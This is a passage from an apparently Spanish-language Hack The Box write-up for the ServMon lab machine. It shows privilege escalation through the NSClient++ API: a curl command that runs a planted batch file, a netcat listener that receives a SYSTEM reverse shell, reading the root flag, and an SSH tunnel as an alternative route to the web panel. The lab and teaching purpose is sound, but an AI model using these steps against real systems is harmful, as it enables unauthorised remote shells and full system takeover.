 ```powershell
nadine@SERVMON C:\Program Files\NSClient++>powershell -c "curl.exe -k -u admin https://127.0.0.1:8443/api/v1/queries/lexsaaaa/commands/execute"
Enter host password for user 'admin':
{"command":"lexsaaaa","lines":[{"message":"\r\nC:\\Program Files\\NSClient++>C:\\Temp\\lexsaaaa.bat","perf":{}}],"result":1}
```

Y recibimos nuestro shell reverso como root.

```shell
josef@kali:~$ rlwrap nc -lvnp 4466
listening on [any] 4466 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.184] 50314
Microsoft Windows [Version 10.0.18363.752]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Program Files\NSClient++>whoami
whoami
nt authority\system

C:\Program Files\NSClient++>hostname
hostname
ServMon

C:\Program Files\NSClient++>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
4cf77a501b1896dc**************
```

Y somos root !     \\( ^^)/ 



------



Otra forma de ejecutar nuestro script es crear un tunel por shh y usarlo como un servidor de salto para acceder a la web de NSClient++

Más info: <https://www.ssh.com/ssh/tunneling/example>

Entonces haríamos lo siguiente:

```
root@kali:~/HTB/servmon# ssh nadine@10.10.10.184 -L 8443:127.0.0.1:8443
```

Esto nos abre una conexión al `10.10.10.184`como servidor de salto y reenvía cualquier conexión  que hagamos al puerto 8443 en nuestro kali al puerto 8443 e IP  `127.0.0.1` del servidor.

Luego de ello ya tenemos acceso a la web conectandonos a traves de nuestro navegador

![1587796287839](C:\Users\Josef\AppData\Roaming\Typora\typora-user-images\1587796287839.png)

Nos logeamos con las credenciales que ya obtuvimos y podemos verificar nuestro external script en la sección de settings.

![1587796059445](C:\Users\Josef\AppData\Roaming\Typora\typora-user-images\1587796059445.png)



y podemos ejecutarlo desde la misma web en la sección de querys:

![1592636844832](C:\Users\Josef\AppData\Roaming\Typora\typora-user-images\1592636844832.png)

Happy_hacking!